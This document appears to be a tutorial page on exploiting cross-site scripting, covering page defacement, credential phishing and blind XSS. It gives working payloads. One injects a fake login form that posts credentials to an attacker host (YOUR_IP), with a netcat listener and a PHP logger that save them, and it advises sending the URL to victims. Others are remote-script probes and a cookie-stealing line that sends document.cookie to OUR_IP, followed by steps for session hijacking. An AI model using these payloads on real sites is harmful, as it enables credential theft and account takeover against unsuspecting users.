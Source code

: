 # XSS Attacks

### Defacing

After we successfully discover a XSS vulnerability, we might want exploit it and inject JavaScript code through XSS and make a web page look any way we like.

There are some common HTML elements usually utilized to change the original look of a web page:

* Background Color <mark style="color:purple;">document.body.style.background</mark>
* Background <mark style="color:purple;">document.body.background</mark>
* Page Title <mark style="color:purple;">document.title</mark>
* Page Text <mark style="color:purple;">DOM.innerHTML</mark>

#### Changing the Background

```html
<script>document.body.style.background = "black"</script>
```

{% code overflow="wrap" %}
```html
<script>document.body.background = "https://www.example.com/images/logo.svg"</script>
```
{% endcode %}

#### Changing Page Title

```html
<script>document.title = 'Example Site'</script>
```

#### Changing Page Text

It is possible to change the text of a specific HTML element/DOM using <mark style="color:purple;">innerHTML</mark> function:

```javascript
document.getElementById("todo").innerHTML = "New Text"
```

### Phishing

A common type of XSS attack is phishing. In these attacks, scammers use fake but convincing information to trick people into giving away their sensitive information. One way this happens is by creating fake login forms that capture users' login details and send them to the attacker. The attacker can then use this information to access the victim's account.

If we find an XSS vulnerability in a web application for a specific organization, we can use it to run a phishing simulation. This exercise helps us see how aware the organization's employees are about security, especially if they trust the vulnerable web application and don’t think it could be harmful.



#### XSS Discovery

### Step 1: Understanding the Target Application

1. **Identify the Input Field**: Locate the input field where user input is accepted (e.g., an image URL input).
2. **Analyze the Output**: Use browser developer tools (F12) to inspect how your input is rendered in the HTML.

### Step 2: Initial Payload Testing

1. **Basic XSS Payload**: Start with a simple payload:

```javascript
<script>alert('XSS');</script>
```

* Input this into the image URL field and submit.
* If the alert box appears, you have confirmed an XSS vulnerability.

2. **Check for Output Encoding**: If the payload does not execute, check for HTML entities (e.g., `&lt;` for `<`).

### Step 3: Crafting a Working Payload

1. **Bypass Filters**: If basic payloads are blocked, try variations:
   * Use event handlers:

```html
<img src="x" onerror="alert('XSS');">
```

* Use alternative tags or attributes:

```html
<svg><script>alert('XSS');</script></svg>
```

2. **Inspecting the HTML Output**: After submitting your payload, view the page source to see how your input is rendered.

### Step 4: Developing the Phishing Payload

1. **Create a Login Form**: Use `document.write()` to inject the phishing form:

{% code overflow="wrap" %}
```javascript
document.write('<h3>Please login to continue</h3><form action="http://YOUR_IP"><input type="text" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" value="Login"></form>');
```
{% endcode %}

2. **Remove Existing Elements**: To make the phishing form more convincing, remove the original input field:

```javascript
document.getElementById('urlform').remove();
```

3. **Combine the Code**: Your final payload might look like this:

{% code overflow="wrap" %}
```javascript
document.getElementById('urlform').remove();
document.write('<h3>Please login to continue</h3><form action="http://YOUR_IP"><input type="text" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" value="Login"></form>');
```
{% endcode %}

### Step 5: Setting Up the Listener

1. **Using Netcat**: Start a listener to capture the credentials:

```bash
sudo nc -lvnp 80
```

2. **Using PHP**: Create a PHP script to log the credentials:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://YOUR_SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

* Save this as `index.php` and run a PHP server:

```bash
sudo php -S 0.0.0.0:80
```

### Step 6: Executing the Attack

1. **Craft the Malicious URL**: Combine the target URL with your payload:

```
http://target-website.com/phishing?url=<your_payload_here>
```

2. **Send the URL**: Share the crafted URL with potential victims.
3. **Capture Credentials**: When a victim logs in, their credentials will be sent to your server, and you can check `creds.txt` for the captured information.

### **Blind XSS**

**Understanding Session Hijacking and XSS Attacks**

When you use websites, they often remember you by using something called cookies. These cookies are small pieces of data that help you stay logged in, so you don’t have to enter your password every time. But if a bad person gets hold of your cookie, they can pretend to be you and access your account without knowing your password. This is called **session hijacking**.

#### What is Blind XSS?

Sometimes, websites have a problem called **XSS (Cross-Site Scripting)**. This happens when someone can put harmful code (like JavaScript) into a website, and that code runs when someone else visits the site. A special kind of XSS is called **Blind XSS**. This means the bad code runs on a part of the website that the attacker can’t see, like an admin page.

#### How to Find Blind XSS:

To find out if a website has this problem, we can try to send a special code that asks for help from our own computer. For example, we can use a piece of code like this:

```html
<script src="http://OUR_IP/username"></script>
```

Here, `OUR_IP` is the address of our computer. If the website runs our code, it will send a message back to us, and we’ll know it’s vulnerable.

#### Using Remote Scripts:

We can also use a trick to load a script (a piece of code) from our computer onto the website. We can change the name of the script to match the field we are testing. For example, if we test a username field, we can name our script "username." If the website runs our script, we’ll see a request on our computer saying that the username field is vulnerable.

#### Testing for Vulnerabilities:

We can try different pieces of code in different fields on the website. Here are some examples of code we might use:

```html
<script src="http://OUR_IP"></script>
'><script src="http://OUR_IP"></script>
```

If we find one that works, we’ll know that field is vulnerable. We can skip fields like email and password because they usually have extra protections.

#### Stealing Cookies:

Once we find a vulnerable field, we can use another piece of code to grab the cookie from the victim’s browser and send it to our computer. For example, we can use this code:

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

This code creates a new image that points to our server and includes the cookie in the URL. This way, we can see what the cookie is and pretend to be the victim.

#### How to Use the Stolen Cookie:

After we get the cookie, we can use it to log into the victim’s account. We just need to add the cookie to our browser. In Firefox, we can open the Developer Tools, go to the Storage section, and add our cookie. The cookie has a name (like "session") and a value (like a long string of letters and numbers). Once we set our cookie, we can refresh the page, and we will have access to the victim's account.

